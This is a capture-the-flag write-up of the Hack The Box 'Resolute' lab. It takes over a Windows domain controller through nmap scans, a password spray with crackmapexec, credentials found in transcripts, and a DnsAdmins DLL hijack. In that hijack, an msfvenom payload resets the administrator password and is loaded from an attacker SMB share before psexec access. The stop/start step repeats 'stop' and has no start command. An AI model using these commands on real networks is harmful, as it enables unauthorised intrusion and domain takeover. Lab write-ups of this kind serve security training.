



# HTB Resolute

Basic nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.15s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49714/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 365.07 seconds
          Raw packets sent: 66234 (2.914MB) | Rcvd: 67252 (2.733MB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).
Not shown: 989 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain      Simple DNS Plus
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-04-05 00:35:29Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http  Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/4%OT=53%CT=1%CU=42780%PV=Y%DS=2%DC=T%G=Y%TM=642CC0D8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%CI=I%TS=A)SEQ(SP=106%GCD
OS:=1%ISR=108%TS=A)OPS(O1=M53ANW8ST11%O2=M53ANW8ST11%O3=M53ANW8NNT11%O4=M53
OS:ANW8ST11%O5=M53ANW8ST11%O6=M53AST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%
OS:W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53ANW8NNS%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q
OS:=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%
OS:A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD
OS:=G)IE(R=Y%DFI=N%T=80%CD=Z)
Uptime guess: 0.003 days (since Tue Apr  4 18:25:00 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-04-05T00:36:03
|_  start_date: 2023-04-05T00:32:20
| smb-os-discovery: 
|  OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|  Computer name: Resolute
|  NetBIOS computer name: RESOLUTE\x00
|  Domain name: megabank.local
|  Forest name: megabank.local
|  FQDN: Resolute.megabank.local
|_  System time: 2023-04-04T17:36:00-07:00
TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1  51.04 ms 10.10.16.1
2  51.10 ms 10.10.10.169
NSE: Script Post-scanning.
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.36 seconds
          Raw packets sent: 1476 (76.180KB) | Rcvd: 4649 (192.608KB)
```

SMB enumeration shows shares are locked down:


When enumerating users with CME, I found the following users. One user has a password noted in the comment section as well.:


```
Uname: marko
Passwd: Welcome123!
```

The above password did not work for Marko. It may be due to the fact that the comment is old and he already created a new password. With this in mind, I decided to try this password on all users after adding the other usernames to a new list. I then performed the dictionary attack with CME like so.:
```
└─$ crackmapexec smb 10.10.10.169 -u userlist.txt -p Welcome123!
```


Valid credentials:
```
Uname: melanie
Passwd: Welcome123!
```

I was then able to access some SMB shares with Read-only access as show below.:
```
smbmap -d megabank.local -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```


After checking the SMB shares, I did not find anything of value. I proceeded to then establish a remote shell with evil-winrm with melanie's credentials.:


User.txt hash:

Next, I had to recall what the correct command was to see all files in a directory including hidden ones. Apparently, the correct command is:
```
dir -force
```

In using this command, I found the PSTranscripts directory which had some sensitive information.:


New credentials:
```
Uname: ryan
Passwd: Serv3r4Admin4cc123!
```

I was then able to evil-winrm as ryan in a new session.:


In this case, Ryan is a member of the following groups.:


When researching domain users group, it appears Ryan is a member of the Contractors group and the DomainAdmins group as well. This can also be seen when using bloodhound:

When researching the DomainAdmins group for privilege escalation, I found the following.: <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges>

It is also worth noting that the DNS service runs with NT AUTH\\SYSTEM privileges. This is part of the reason why I can escalate privileges with a loaded custom DLL file. I just need to change the path to this DLL file and restart the service for this to work.

First, I generated a malicious .dll payload with msfvenom using:
```
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

Next, I hosted the .dll file with Impacket's SMB script:
```
impacket-smbserver share ./
```

Next, I set the remote .dll file in the target Windows machine's registry with the following command:
```
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.2\share\da.dll            <----------------- NOTE: The "share" directory is mandatory as I received errors without it.
```

Next, I stopped and started the DNS service like so on the target Windows machine:
```
sc.exe stop dns
sc.exe stop dns

NOTE: You will see a connection attempt on the SMB server's side without errors.
```

Finally, I just access the machine using Impacket's PSExec script like so and then entered the password (set with msfvenom) when prompted.:
```
impacket-psexec megabank.local/Administrator@10.10.10.169
```

As a result, I got a privileges shell with Administrator permissions and was able to get the root.txt file.:


**###ROOTED!!!###**
